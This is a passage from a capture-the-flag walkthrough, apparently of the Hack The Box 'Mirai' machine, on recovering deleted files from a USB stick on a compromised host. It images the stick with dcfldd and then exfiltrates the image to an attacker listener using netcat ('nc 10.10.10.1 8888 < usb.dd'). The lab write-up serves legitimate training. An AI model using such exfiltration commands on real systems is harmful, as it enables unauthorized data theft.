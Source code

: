 You'll find a txt file at that location.

```
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
## Forensics and Data Exfiltration

Ha! Forensics!

Let's follow these steps:

1. Create an image of the usbstick.
2. Compare the hashes.
3. Send the image to your machine to apply forensic tools. (Exfiltrating)

Create an image with **dcfldd**, a tool for for copying and converting files (enhanced from GNU dd).

`dcfldd if=/dev/sdb of=/tmp/usb.dd hash=md5,sha1 hashlog=/tmp/hashlog.txt`

* `if` - input file path to copy from (you need to point to the block file so use /dev/sdb and not the mounted path)
* `of` - output file path to copy to
* `hash` - hash type to apply
* `hashlog` - file to record the specified hash values

Compare the hashes.

`dcfldd if=/dev/sdb vf=/tmp/usb.dd verifylog=/tmp/verifylog.txt`

* `vf` - file path to verify to make sure that it's the same as the file specified in if
* `verifylog` - file to record the result in; you should get MATCH

Now, send the file to your system so that you can apply a variety of forensic tools.

To exfiltrate the image with `nc`, follow these instructions.

On your machine:

`nc -nvlp 8888 > usb.dd`

On the machine you're attacking:

`nc 10.10.10.1 8888 < usb.dd`

You should find the usb.dd file in the directory where you started your netcat listener.

(Since SSH is available, you can also use scp which was used in the official walkthrough.)

Now, let's try to recover the file.

`fls` lists the files and directories in a file image.

```
root@kali:~/htb/mirai# fls usb.dd
d/d 11:	lost+found
r/r * 12:	root.txt
r/r 13:	damnit.txt
V/V 2561:	$OrphanFiles
```
We see root.txt. But you will find that most forensic tools are unsuccessful in recovering it.
